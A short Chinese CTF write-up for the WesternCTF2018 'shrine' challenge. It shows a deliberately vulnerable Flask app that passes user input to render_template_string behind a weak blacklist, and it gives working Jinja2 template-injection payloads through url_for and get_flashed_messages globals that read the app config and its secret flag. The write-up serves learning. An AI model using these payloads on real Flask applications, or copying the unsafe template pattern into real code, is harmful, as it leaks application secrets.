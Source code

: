 ### [WesternCTF2018]shrine

----

```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/')
def shrine(shrine):
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
    
    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)

```

模板注入题,我们需要去访问config中的'FLAG'

但是这里有黑名单过滤了config

```python
app.config['FLAG'] = os.environ.pop('FLAG')
```

> `current_app` 是 Flask 中的一个上下文变量，用于在请求上下文中引用当前活动的 Flask 应用实例。它通常在视图函数、模板或其他与请求相关的代码中使用，而不需要在函数参数中显式传递应用实例。
>
> 简单说这个变量就代表当前文件

```
/shrine/{{url_for.__globals__}}
/shrine/{{url_for.__globals__['current_app'].config}}
```

*利用python对象之间的引用关系来调用被禁用的函数对象*

> `url_for()` 方法:
>
> url_for() 会返回视图函数对应的URL。如果定义的视图函数是带有参数的，则可以将这些参数作为命名参数传入。
>
> `get_flashed_messages()` 方法：
>
> 返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。



还可以使用`get_flashed_messages`

```
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```



学到了